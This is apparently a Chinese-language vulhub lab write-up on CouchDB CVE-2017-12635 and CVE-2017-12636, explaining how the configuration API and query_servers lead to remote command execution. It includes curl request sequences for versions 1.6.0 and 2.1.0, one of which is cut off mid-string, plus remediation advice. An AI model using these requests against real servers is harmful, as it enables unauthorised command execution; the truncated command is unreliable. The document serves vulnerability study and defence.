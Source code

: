 # Couchdb 垂直权限绕过漏洞

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->用户创建成功--->成功登录

### 0x01漏洞介绍

CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 `RESTful JavaScript Object Notation (JSON) API` 访问。CouchDB会默认会在5984端口开放Restful的API接口，用于数据库的管理功能。

那么，问题出在哪呢？翻阅官方描述会发现，CouchDB中有一个`Query_Server`的配置项，在官方文档中是这么描述的：

> CouchDB delegates computation of design documents functions to external query servers. The external query server is a special OS process which communicates with CouchDB over standard input/output using a very simple line-based protocol with JSON messages.

直白点说，就是CouchDB允许用户指定一个二进制程序或者脚本，与CouchDB进行数据交互和处理，`query_server`在配置文件local.ini中的格式：

```
[query_servers]
LANGUAGE = PATH ARGS
```

默认情况下，配置文件中已经设置了两个query_servers:

```
[query_servers]
javascript = /usr/bin/couchjs /usr/share/couchdb/server/main.js
coffeescript = /usr/bin/couchjs /usr/share/couchdb/server/main-coffee.js
```

可以看到，CouchDB在`query_server`中引入了外部的二进制程序来执行命令，如果我们可以更改这个配置，那么就可以利用数据库来执行命令了，但是这个配置是在local.ini文件中的，如何控制呢？

继续读官方的文档，发现了一个有意思的功能，CouchDB提供了一个API接口用来更改自身的配置，并把修改后的结果保存到配置文件中：

> The CouchDB Server Configuration API provide an interface to query and update the various configuration values within a running CouchDB instance

也就是说，除了`local.ini`的配置文件，CouchDB允许通过自身提供的`Restful API`接口动态修改配置属性。结合以上两点，我们可以通过一个未授权访问的CouchDB，通过修改其`query_server`配置，来执行系统命令			

```
CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。可以被利用于，非管理员用户赋予自身管理员身份权限。

CVE-2017-12636时由于数据库自身设计原因，管理员身份可以通过HTTP（S）方式，配置数据库。在某些配置中，可设置可执行文件的路径，在数据库运行范围内执行。结合CVE-2017-12635可实现远程代码执行
```

​			Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境

##### 影响版本

```
<1.7.0 && <2.1.1
```

### 0x02漏洞复现

​			该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用 [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)先增加一个管理员用户。

##### **PAYLOAD1:

### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

##### **PAYLOAD2:

### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership
```

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/
```

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加`_view`的同时即触发了`query_servers`中的命令。		

![Couchdb_任意命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Couchdb_任意命令执行漏洞_1.jpg)

![Couchdb_任意命令执行漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Couchdb_任意命令执行漏洞_2.jpg)

###  总结:完成的很草率，环境总搭建不起来，心态炸裂。以后回来补已经备注。

### 0x03修复方案

1.打补丁,升级到最新版本

2.使用ECS安全组或防火墙策略，限制CouchDB端口暴露在互联网，设置精细化网络访问控制。

3.开启认证功能，不要使用默认账号口令，配置自定义账号和强口令，防止暴力破解攻击事件。

### 0x04参考资料

https://vulhub.org/#/environments/couchdb/CVE-2017-12636/

https://www.secpulse.com/archives/45917.html

https://www.cnblogs.com/huangxiaosan/p/14317324.html



